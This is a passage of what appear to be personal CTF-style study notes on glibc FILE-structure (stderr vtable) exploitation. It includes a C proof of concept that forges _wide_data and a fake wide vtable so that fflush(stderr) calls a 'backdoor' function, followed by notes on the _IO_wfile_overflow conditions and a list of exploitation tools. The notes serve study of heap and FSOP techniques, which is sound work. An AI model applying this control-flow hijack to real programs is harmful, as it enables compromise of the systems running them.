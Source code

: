 ```c
    *(size_t *)stderr2 = 0x800;

    puts("[+] step 2: change stderr->_mode to 1");
    *(size_t *)(stderr2 + 0xc0) = 1;
 
    puts("[+] step 3: change stderr->vtable to _IO_wstrn_jumps-0x20");
    *(size_t *)(stderr2 + 0xd8) = _IO_wstrn_jumps_addr-0x20;
 
    puts("[+] step 4: replace stderr->_wide_data with the allocated chunk p1");
    *(size_t *)(stderr2 + 0xa0) = (size_t)p1;
 
    puts("[+] step 5: set stderr->_wide_data->_wide_vtable with the allocated chunk p2");
    *(size_t *)(p1 + 0xe0) = (size_t)p2;

    puts("[+] step 6: set stderr->_wide_data->_wide_vtable->_IO_write_ptr >  stderr->_wide_data->_wide_vtable->_IO_write_base");
    *(size_t *)(p1 + 0x20) = (size_t)1;

    puts("[+] step 7: put backdoor at fake _wide_vtable->_overflow");
    *(size_t *)(p2 + 0x18) = (size_t)(&backdoor);

    puts("[+] step 8: call fflush(stderr) to trigger backdoor func");
    fflush(stderr);

}
```
> mode를 1로 설정해야 하기 때문에 효용성이 낮음

- _IO_wfile_overflow
```c
flags & ~ (0x2 | 0x8 | 0x800)
_wide_data->_IO_write_base == 0
_wide_data->_IO_buf_base == 0
```
> very good

- _IO_wfile_underflow_mmap
- 
#### _IO_cookie_write

## Usefull tools
- gdb-peda
- peda-heap
- pwngdb
- z3
- pwntools
- one_gadget
- ROPGadget
- libc_database